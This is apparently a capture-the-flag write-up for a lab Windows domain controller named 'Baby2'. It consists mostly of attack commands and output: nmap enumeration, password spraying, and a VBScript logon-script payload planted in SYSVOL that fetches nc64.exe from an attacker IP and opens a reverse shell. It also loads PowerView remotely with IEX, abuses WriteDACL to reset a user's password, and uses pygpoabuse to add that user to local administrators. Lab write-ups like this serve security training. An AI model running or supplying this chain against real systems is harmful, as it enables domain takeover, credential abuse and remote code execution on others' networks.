 # Enumeration
Using nmap:
```
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-30 15:25:23Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby2.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc.baby2.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.baby2.vl
| Not valid before: 2023-08-22T17:39:15
|_Not valid after:  2024-08-21T17:39:15
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: baby2.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.baby2.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.baby2.vl
| Not valid before: 2023-08-22T17:39:15
|_Not valid after:  2024-08-21T17:39:15
|_ssl-date: TLS randomness does not represent time
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby2.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.baby2.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.baby2.vl
| Not valid before: 2023-08-22T17:39:15
|_Not valid after:  2024-08-21T17:39:15
|_ssl-date: TLS randomness does not represent time
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: baby2.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.baby2.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.baby2.vl
| Not valid before: 2023-08-22T17:39:15
|_Not valid after:  2024-08-21T17:39:15
|_ssl-date: TLS randomness does not represent time
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-03-30T15:26:44+00:00; +51m55s from scanner time.
| ssl-cert: Subject: commonName=dc.baby2.vl
| Not valid before: 2024-03-29T15:14:05
|_Not valid after:  2024-09-28T15:14:05
| rdp-ntlm-info: 
|   Target_Name: BABY2
|   NetBIOS_Domain_Name: BABY2
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: baby2.vl
|   DNS_Computer_Name: dc.baby2.vl
|   DNS_Tree_Name: baby2.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-03-30T15:26:04+00:00
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
9389/tcp  open  mc-nmf     .NET Message Framing
49664/tcp open  msrpc      Microsoft Windows RPC
49667/tcp open  msrpc      Microsoft Windows RPC
49670/tcp open  msrpc      Microsoft Windows RPC
49674/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc      Microsoft Windows RPC
54443/tcp open  msrpc      Microsoft Windows RPC
54449/tcp open  msrpc      Microsoft Windows RPC
54461/tcp open  msrpc      Microsoft Windows RPC
54489/tcp open  msrpc      Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Using smb found the users:
![](attachment/3e7c6c6895152ff3ea11fe61659d8e8e.png)
Trying the users with their username as passwords:
`cme smb 10.10.106.93 -u user.list -p user.list --continue-on-success --no-bruteforce`
We get two logins
![](attachment/e20244231a1df092cf49e18a1b5d4574.png)
We discover a login script with bloodhound:![](attachment/cfa7c848fbad9e3003220b4b2433ac88.png)

Use vbscript reverse shell with nc to plant in SYSVOL
```vbscript
Set oShell = CreateObject("Wscript.Shell")
oShell.run "cmd.exe /c curl 10.8.1.208/nc64.exe -o C:\Windows\Temp\nc64.exe"
oShell.run "cmd.exe /c C:\Windows\Temp\nc64.exe 10.8.1.208 4445 -e cmd.exe"
```
We get a shell:
![](attachment/572b88084e39e3795a59155e1ac7dedf.png)
Now in bloodhound we found a path![](attachment/aff5e63bf165933e1dd94d9d2f302a63.png)
Now to abuse writedacl without the password:
Import Powerview:
`IEX (New-Object System.Net.WebClient).DownloadString('http://10.8.1.208/PowerView.ps1')`
Get rights over gpoadm:
`Add-DomainObjectAcl -TargetIdentity gpoadm -PrincipalIdentity Amelia.Griffiths -Rights All`
Change password:
`Set-DomainUserPassword -Identity gpoadm -AccountPassword $UserPassword`
Now we can use pygpoabuse.py yo modify the GPO and add gpoadm as administrator:
`python3 pygpoabuse.py baby2.vl/gpoadm:Password123! -dc-ip dc.baby2.vl -gpo-id 31B2F340-016D-11D2-945F-00C04FB984F9 -command 'net localgroup administrators /add gpoadm' -f`
